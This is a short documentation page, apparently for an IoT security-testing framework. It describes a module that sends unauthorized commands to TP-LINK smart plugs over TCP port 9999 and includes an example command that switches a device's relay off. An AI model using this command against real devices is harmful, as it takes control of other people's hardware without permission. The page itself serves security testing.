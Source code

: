 TCP
====

`Transmission Control Protocol (TCP) <https://en.wikipedia.org/wiki/Transmission_Control_Protocol>`_ is one of the main protocols of the Internet protocol suite that defines how to establish and maintain a network conversation through which application programs can exchange data. Many lightweight implementations of TCP are implemented in IoT.

tcp.tpliot.takeover
----------------------
This test case allows to send unauthorized commands to TP-LINK smart devices on the same network.

**Usage details:**

.. code-block:: console

   ef> run tcp.tpliot.takeover -h

Examples
^^^^^^^^

.. note::

   Use crypto.tpliot.decrypt to decrypt and convert hex to json for ``-d``

.. code-block:: text

   ef> run tcp.tpliot.takeover -r 10.42.0.113 -p 9999 -d {"context":{"source":"46a4d58b-6279-432c-ae23-e115c2db8354"},"system":{"set_relay_state":{"state":0}}}
  
   [...]
   [+] Received Response: 0000002dd0f281f88bff9af7d5ef94b6c5a0d48bf99cf091e8b7c4b0d1a5c0e2d8a381e496e4bbd8b7d3b694ae9ee39ee3
   [+] Decrypted Response: {"system":{"set_relay_state":{"err_code":0}}}
   [+] Test tcp.tpliot.takeover passed



